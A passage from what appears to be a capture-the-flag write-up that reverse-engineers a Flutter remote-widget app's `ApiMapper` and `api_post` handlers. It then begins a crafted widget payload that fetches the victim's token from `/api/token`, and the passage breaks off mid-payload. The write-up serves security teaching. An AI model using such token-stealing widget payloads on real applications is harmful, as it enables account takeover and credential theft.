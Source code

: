 We tried debugging and find that snippet code. Based on our understanding, and comparing our decoded widget, we assume `ApiMapper` is take parameters `"url"`, `"jsonKey"`, `"dataKey"`, and `"onLoaded"`.

![](discoteq-15.png)

And Our next finding of debugging is that snippet above. As we can see, at function `_loadRequest$body$_ApiMapperState(api_url)` it will be doing a magical thing where it will create a request and at case 2, it will get the response and put it to `$async$self._main$_result` variable.

![](discoteq-16.png)

And here is another next finding during debugging. At function `_updateIfReady$0()` is doing another magical thing. The gist of it is `t1` variable will store the response we got at `$async$self._main$_result` before. 

After that, the variable `resultForKey` is tried to get the value of object `t1` using `jsonKey` at the widget. So, the variable of `resultForKey` actually stores the value of the key (`jsonKey`) the response at widget `url`. 

After that, the `resultForKey` will be doing a loop and put it at the `values` variable. And then, at `_this._main$_data.update$2(0, _this._widget.dataKey, values);` it means the application will update the `data` at the widget using the `dataKey` parameter at `ApiMapper` before. It will store the response. And thanks to that, we could access the `dataKey` via widget. 

And the last thing is the `onLoaded` is doing a similar thing with the `onload` at javascript html event but it will be executed after the GET request is finished.

Since we already "a little bit" understand how the application work, we could create a widget using `ApiMapper` now.

But, there's another problem now. How do we know the response with those limitations?. While the widget deserialization is all done on the client-side. Not to mention, another limitation of `ApiMapper` is only making GET requests.

We are back at the decompiled widget before. At the `ElevatedButton` function, there's a key `onPressed` which has similar behavior to `onClick` at javascript html. It will invoke a registered event with the name `api_post`. So, based on the decompiled widget, we could pass the variable data to that event.

![](discoteq-17.png)

So, we back to the compiled javascript (again). With the snippet code above, we could assume it's just checking the event name and making a POST request to the given URL and body.

All the problem is already resolved. Our next step is crafting the payload.

`payload.rfwtxt`
```dart
import core.widgets;
import core.material;
import local;

widget root = Container(
    child: Column(
      children: [
        Row(
          children: [
            Text(text: "From " ), 
            Text(text: data.author.user, style: {color: 4278230474}),
            ApiMapper(
              url: "/api/token",
              jsonKey: "new_token",
              dataKey: "user_token",
              onLoaded: [true]
            ),
            
            ApiMapper(
```